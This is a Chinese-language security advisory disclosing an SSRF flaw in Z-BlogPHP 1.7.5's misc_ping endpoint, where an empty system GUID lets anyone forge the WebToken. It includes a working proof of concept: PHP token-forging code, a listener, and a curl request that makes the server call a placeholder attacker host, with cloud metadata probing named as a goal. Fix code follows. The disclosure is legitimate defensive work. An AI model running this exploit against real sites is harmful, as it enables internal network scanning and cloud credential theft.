


# Z-BlogPHP misc_ping 服务端请求伪造漏洞

厂商: Z-BlogPHP (https://www.zblogcn.com/)

产品: Z-BlogPHP

版本: 1.7.5 Build 173540

漏洞类型: 服务端请求伪造 (SSRF) → 内网探测 / 信息泄露


作者: lhw422

---

## 漏洞概述

在Z-BlogPHP 1.7.5中发现一处服务端请求伪造（SSRF）漏洞，未认证攻击者可利用空系统GUID伪造WebToken，通过misc_ping接口使服务器向任意URL发起HTTP请求。

该漏洞位于 `zb_system/function/c_system_misc.php` 文件的 `misc_ping` 函数中。该函数通过 `cmd.php?act=misc&type=ping` 接口对外开放（权限级别6，任何人可访问）。函数接收用户传入的 `url` 参数，使用 `Network::Create()` 向目标URL发起HTTP GET请求。

WebToken验证本应阻止未认证访问，但由于系统安装后 `ZC_BLOG_CLSID`（系统GUID）为空字符串，导致WebToken的HMAC-SHA256密钥为空。攻击者可轻松计算有效Token，绕过Token验证。

<div align="center"></div>

攻击者通过构造 `url` 参数指向内网地址或云元数据服务，可实现内网端口扫描、访问内部服务、或获取云平台敏感信息。

---

## 漏洞代码分析

**文件:** `zb_system/function/c_system_misc.php`，第579-601行（misc_ping函数）

**根本原因1：URL参数未校验**

```php
function misc_ping()
{
    global $zbp;
    $data = array();
    $token = GetVars('token', 'GET');

    if (VerifyWebToken($token, "")) {
        // 漏洞点：$url来自用户输入，未做任何校验
        $url = GetVars('url') . 'zb_system/cmd.php?act=misc&type=respondping&token=' . $token;
        $http = Network::Create();
        $http->open('GET', $url);       // 向攻击者控制的URL发起请求
        $http->setTimeOuts(10, 10, 0, 0);
        $http->send();
        if ($http->status == 200) {
            $s = $http->responseText;
            if ($s == 'ok') {
                JsonError(0, '<em>' . $zbp->lang['msg']['verify_succeed'] . '</em>', $data);
            }
            return;
        }
    }
    JsonError(1, $zbp->lang['error'][5], $data);
}
```

**根本原因2：空系统GUID使WebToken可伪造**

```php
// zb_system/function/lib/zblogphp.php，第699行
$this->guid = &$this->option['ZC_BLOG_CLSID'];
// ZC_BLOG_CLSID 默认值为空字符串

// zb_system/function/c_system_common.php，第2659-2679行
function VerifyWebToken($webTokenString, $webTokenId, $key = '')
{
    global $zbp;
    // ...
    if ($key == '') {
        $key = $zbp->guid;      // 空字符串!
    }
    $sha = hash_hmac('sha256', $time . $webTokenId . implode($args), $key);
    // 密钥为空 → hash_hmac('sha256', $data, '') → 攻击者可计算
    // ...
}
```

**Token伪造分析：**

| 条件 | 正常情况 | Z-BlogPHP实际情况 |
|------|---------|-------------------|
| 系统GUID | 随机32字符hex | 空字符串 `""` |
| HMAC密钥 | 高强度随机密钥 | 空字符串 |
| Token安全性 | 无法伪造 | 可轻易计算 |

---

## 漏洞验证（PoC）

### 步骤1：计算有效WebToken

由于系统GUID为空，WebToken的HMAC密钥为空字符串：

```php
<?php
// 伪造WebToken
$guid = "";  // ZC_BLOG_CLSID为空
$time = time() + 86400;  // 24小时后过期
$sha = hash_hmac("sha256", (string)$time, $guid);
$token = $sha . $time;

echo "Token: $token\n";
```

### 步骤2：启动回调监听

```bash
# 在攻击者服务器上启动HTTP监听
python3 -m http.server 8888 &
```

### 步骤3：触发SSRF

```bash
TOKEN="<步骤1计算出的Token>"
curl "http://目标/zb_system/cmd.php?act=misc&type=ping&token=$TOKEN&url=http://攻击者IP:8888/"
```

### 步骤4：确认SSRF

观察回调服务器日志，Z-BlogPHP服务器发起了HTTP请求：

```
127.0.0.1 - - [时间] "GET /zb_system/cmd.php?act=misc&type=respondping&token=... HTTP/1.1" 404 -
```

---

## 验证结果

在动态测试环境中（Kali Linux + PHP内置服务器 + Python HTTP回调服务器）：

**Token伪造验证：**

<div align="center"></div>

调用 `misc_respondping` 验证Token有效性，服务端返回 `ok`，确认Token伪造成功。

**SSRF验证：**

<div align="center"></div>

Z-BlogPHP服务器成功向攻击者控制的HTTP服务器发起了请求：

```
[SSRF DEMO] "GET /zb_system/cmd.php?act=misc&type=respondping&token=... HTTP/1.1" 200 -
```

**攻击者可实现：**
- 内网端口扫描与服务发现
- 访问云平台元数据服务（169.254.169.254）
- 攻击内网脆弱的Web应用
- 绕过防火墙访问限制

---

## 修复建议

### 修复1：URL白名单校验

```php
// 修复前（存在漏洞）：
$url = GetVars('url') . 'zb_system/cmd.php?act=misc&type=respondping&token=' . $token;
$http = Network::Create();
$http->open('GET', $url);

// 修复后（安全）：
$user_url = GetVars('url');
// 白名单校验
$allowed_hosts = array(
    parse_url($zbp->host, PHP_URL_HOST)
);
$host = parse_url($user_url, PHP_URL_HOST);
if ($host && !in_array($host, $allowed_hosts)) {
    JsonError(1, '非法的URL主机', $data);
}
// 仅允许https/http协议
$scheme = parse_url($user_url, PHP_URL_SCHEME);
if ($scheme && !in_array($scheme, array('http', 'https'))) {
    JsonError(1, '非法的URL协议', $data);
}
$url = $user_url . 'zb_system/cmd.php?act=misc&type=respondping&token=' . $token;
```

### 修复2：自动生成系统GUID

```php
// zb_system/function/lib/zblogphp.php Load()方法中添加
if (empty($this->guid)) {
    $this->guid = GetGuid();
    $this->option['ZC_BLOG_CLSID'] = $this->guid;
    $this->SaveOption();
}
```

### 修复3：添加访问控制

对 `misc_ping` 接口添加CSRF Token验证和管理员权限检查，限制仅管理员可触发Ping操作。

---

